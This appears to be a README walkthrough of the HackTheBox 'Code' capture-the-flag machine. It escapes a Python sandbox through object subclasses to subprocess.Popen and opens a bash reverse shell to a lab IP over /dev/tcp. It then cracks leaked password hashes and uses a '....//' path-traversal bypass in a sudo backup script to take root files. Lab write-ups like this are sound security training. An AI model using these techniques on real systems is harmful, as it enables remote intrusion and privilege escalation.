

# Code CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Code** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Code). 
---

we see open ports 22 and 5000 

we have some python code editor, running basic reverse shell is of course filtered 


so AI suggested to test varius snippets to escape the sandox or use SSTI (Server side template injection)

this command prints a list of all classes that directly inherit from Python's base object class.

```
print((1).__class__.__base__.__subclasses__())
```


and this command defines and immediately calls an anonymous function (lambda) that returns 1, so it prints 1.

```
print((lambda: 1)()) 
```


This code gets all classes that directly inherit from Python's base object class, then prints each one with its index in the list.

```
subs = (1).__class__.__base__.__subclasses__()
for i, s in enumerate(subs):
    print(i, s)
```


we are looking for index of `subprocess.Popen`


now we have the correct number we can try to run reverse shell

```
().__class__.__base__.__subclasses__()[317](["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.7/7777 0>&1"])
```

it worked we got hit and we can grab user flag


by lookin at the app.py we see all keywords that being filtered


linpeas found some database.db in `/home/app-production/app/instance`


after grabbing the file and opening it in sqlitebrowser, we see table user in which we see some hashes


we can crack them using crackstation


now we can try to login as martin


we see sudo -l output


we cant modify the script itself but we can supply our own file with path to backup


we add malicous path to task.json: `/var/....//root/`, we use ....// to bypass the simple filter and we also include /var 


then we need to run 

```
sudo /usr/bin/backy.sh baskups/task.json
```



then we can unzip the files and we have root flag, in files there is also private ssh key so we also have root access


# MACHINE PWNED
